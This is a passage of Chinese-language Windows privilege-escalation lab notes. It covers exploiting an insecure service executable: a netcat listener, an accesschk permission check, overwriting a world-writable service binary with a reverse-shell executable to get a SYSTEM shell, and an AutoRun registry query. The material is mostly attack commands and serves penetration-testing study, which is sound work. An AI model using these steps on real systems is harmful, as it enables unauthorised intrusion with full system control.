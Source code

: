 
### 啟動服務
```
net start regsvc
```


### NC 監聽
```
nc -lvnp 53
```

獲得system權限 shell

## 服務漏洞 - 不安全的服務可執行文件



### 查詢“ filepermsvc” 服務，注意它以系統權限 (SERVICE_START_NAME) 運行。

```
sc qc filepermsvc
```

### 使用 accesschk.exe，請注意服務二進製文件 (BINARY_PATH_NAME) 文件對每個人都是可寫的：

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

```
### 複製您創建的 reverse.exe 可執行文件並用它替換 filepermservice.exe：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

```
### 在 Kali 上啟動一個監聽器，然後啟動該服務以生成一個以 SYSTEM 權限運行的反向 shell：

```
net start filepermsvc
```





## 註冊表 - 自動運行

### 查詢 AutoRun 可執行文件的註冊表：

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
